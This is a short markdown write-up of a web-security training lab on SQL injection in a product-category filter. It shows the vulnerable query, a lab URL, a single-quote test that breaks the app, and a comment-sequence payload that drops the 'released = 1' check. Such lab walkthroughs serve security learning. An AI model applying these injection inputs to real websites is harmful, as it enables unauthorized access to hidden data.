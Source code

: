 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- lab contains a SQL injection vulnerability in the product category
- When the user selects a category, the application carries out a SQL query like the following
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
- Goal : display one or more unreleased products 
# Solving the lab 
- the url of the lab is like this
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=Lifestyle
```
- first thing to try is to break the webapp so lets try this
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=' 
```
- and we got internal server error and breacked the app
- the sql query became like this 
```
SELECT * FROM products WHERE category = ''' AND released = 1
```
- now we need to make the rest of the query commencted like this
```
SELECT * FROM products WHERE category = ''--' AND released = 1
```
- and the server will read the query like this 
```
SELECT * FROM products WHERE category = ''
```
